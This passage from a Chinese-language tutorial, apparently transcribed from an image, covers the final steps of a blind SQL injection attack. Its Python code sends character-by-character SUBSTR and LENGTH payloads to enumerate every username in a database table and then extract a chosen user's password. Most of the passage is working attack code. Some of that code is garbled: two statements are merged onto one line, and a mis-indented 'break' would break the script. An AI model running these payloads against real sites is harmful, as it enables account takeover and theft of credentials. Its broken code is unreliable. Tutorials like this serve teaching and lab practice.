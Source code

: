 这与我们查询表名的方式没有太大不同，但是，请注意[限制子句](https://www.w3schools.com/mysql/mysql_limit.asp)的用法，我们可以在这里看到这个子句允许我们指定偏移量，这样我们就可以得到第 n 个元素。

# 步骤 6:在一次盲目的 SQLi 攻击中获取用户名

这是我们获取所有用户名的步骤。
枚举完列后，我们可以让用户选择用户名列和密码列，然后让用户继续猜测。

这一阶段与前一阶段没有太大的不同，我们只是列出所有用户名，让用户能够停止研究，进入下一步！

```
users_column = input("Type the name of the column containing usernames: ")
passwords_column = input("Type the name of the column containing passwords: ")query = "1' AND SUBSTR((SELECT {} FROM {} LIMIT {}, 1),{},1)='{}'%23"

found_users = [[] for _ in range(10)]
completion = ""
print("[!] In order to speed up, try to press CTRL+C when you find the target user")
try:
    for i in range(10):        
        for j in range(1, 12):
            for c in string.ascii_letters+string.digits:
                if get_query_result(s, sqli_blind_url, query, users_column, users_table, i, j, c):
                    found_users[i].append(c)

                    break
        print("\t","".join(found_users[i]))
except KeyboardInterrupt as e:
    print("\n Skipping this phase!")
```

这段代码将列出表中的每个用户，当我们完成后，我们可以停止并开始猜测密码。

# 步骤 7:在一次盲目的 SQLi 攻击中获取用户的密码

我们的攻击已经结束了。

到目前为止，我们已经了解了如何猜测密码，所以我只向您展示代码:

*   询问目标用户
*   猜测密码长度
*   猜测用户的密码

```
query = "1' AND LENGTH((SELECT {} FROM {} WHERE {}='{}'))={}%23"
pwd_length = 0
for i in range(100):

    if get_query_result(s, sqli_blind_url, query, passwords_column, users_table, users_column, username, i ):
        pwd_length = i
        print(f"[+] The password length is: {i}")

query = "1' AND SUBSTR((SELECT {} FROM {} WHERE {}='{}' LIMIT 1), {}, 1)='{}'%23"
password = []
for j in range(1, pwd_length+1):

    for c in string.ascii_letters+string.digits:

        if get_query_result(s, sqli_blind_url, query, passwords_column, users_table, users_column, username, j, c):
                password.append(c)

            break
print("[+] Password is: ","".join(password))
```